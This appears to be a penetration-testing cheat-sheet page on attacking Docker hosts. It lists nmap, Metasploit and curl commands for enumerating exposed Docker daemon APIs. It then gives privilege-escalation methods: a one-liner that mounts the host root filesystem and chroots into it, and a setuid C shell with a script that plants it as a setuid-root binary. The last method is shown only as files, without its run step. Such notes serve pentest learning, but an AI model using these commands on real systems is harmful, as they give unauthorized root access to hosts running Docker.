 ### Enumerate Remote Docker Daemon API
- Using Nmap
```
nmap -p 2375,2376 <IP> 

nmap -p- -sV --script docker-* <IP>
```

- Using Metasploit
```
msf> use exploit/linux/http/docker_deamon_tcp
```

- Using Curl
```
#check version
curl -s http://open.docker.socket:2375/version | jq

#list containers
curl -insecure https://tlsopen.docker.socket:2376/containers/json | jq
```

- Using Docker binary
```
docker -H open.docker.socket:2375/version
```

Further information regarding abusing docker sockets can be found here:
https://securityboulevard.com/2019/02/abusing-docker-api-socket/

### Docker Host Privilege Escalation
By default the Docker daemon runs with root privlieges to perform operations, for security, users will generally add themselves to the docker group instead of running as root. However it is possible to leverage docker volumes and suid binaries to escalate a user with docker group access to root.

One-Liner - mounts root directory and chroot:
```
docker run -it --rm -v /:/host alpine chroot /host
```

Fun method using mount and setuid:

Create the following files
- dockerfile
```
FROM alpine:3.5
COPY root.sh root.sh
COPY rootshell rootshell
```
- rootshell.c
```
int main()
{
   setuid( 0 );
   system( "/bin/sh" );
   return 0;
}
```
- root.sh
```
#!/bin/sh

cp rootshell /persist/rootshell
chmod 4777 /persist/rootshell
```
